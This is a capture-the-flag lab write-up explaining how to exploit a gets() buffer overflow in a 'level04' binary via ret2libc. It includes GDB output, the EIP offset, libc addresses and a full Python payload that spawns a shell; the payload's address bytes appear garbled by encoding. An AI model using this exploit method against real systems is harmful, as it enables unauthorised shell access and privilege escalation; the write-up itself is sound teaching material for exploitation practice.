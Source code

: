 
# Level04 - Exploiting a Buffer Overflow with Ret2libc

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level04
Give me some shellcode, k
coucou
child is exiting...
```

The program asks for input and then exits.

## Step 2: Analyzing with GDB

To understand the program, let's analyze it using GDB (GNU Debugger). The program performs a `fork()`, and the child process reads input using `gets()`. The parent process uses `ptrace` to monitor the child, checking if it calls the `exec` function.

```assembly
0x080487f6 <+302>: mov    DWORD PTR [esp],0x8048931
0x080487fd <+309>: call   0x8048500 <puts@plt>
```

If `exec()` is called, the program outputs `"no exec() for you"`.

## Step 3: Exploiting the Buffer Overflow

We can overflow the `gets()` buffer in the child process. Use a long input string to find the offset to control EIP (Instruction Pointer).

```bash
$ gdb -q ./level04
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```

The program segfaults, indicating control of EIP.

### Finding the Offset

```bash
(gdb) i r
eax            0x0   0
...
eip            0x6e6e6e6e  0x6e6e6e6e
```

Using an offset-finding script reveals that EIP is overwritten at offset `156`.

## Step 4: Ret2libc Attack

We will use a Ret2libc attack by calling `system("/bin/sh")`. We need the addresses of `system()`, `exit()`, and the string `"/bin/sh"`.

### Finding Required Addresses

1. **`system` Address**:
   ```bash
   (gdb) info function system
   0xf7e6aed0  system
   ```

2. **`exit` Address**:
   ```bash
   (gdb) info function exit
   0xf7e5eb70  exit
   ```

3. **`/bin/sh` String**:
   ```bash
   (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
   0xf7f897ec
   ```

### Building the Payload

Construct the payload with the addresses found:

```bash
("B" * 156) + system + exit + "/bin/sh"
```

### Executing the Exploit

Save the payload to a file and run the program:

```bash
$ python -c 'print "B"*156+"Ð®æ÷"+"pëå÷"+"ìø÷"' > /tmp/payload
$ cat /tmp/payload - | ./level04
Give me some shellcode, k
whoami
level05
```

## Summary

- The program is vulnerable to a buffer overflow via `gets()`.
- Using the overflow, we performed a Ret2libc attack to call `system("/bin/sh")`.
- This allowed us to bypass security checks and gain shell access.

This exercise demonstrates a common technique for exploiting buffer overflows when direct execution is restricted.
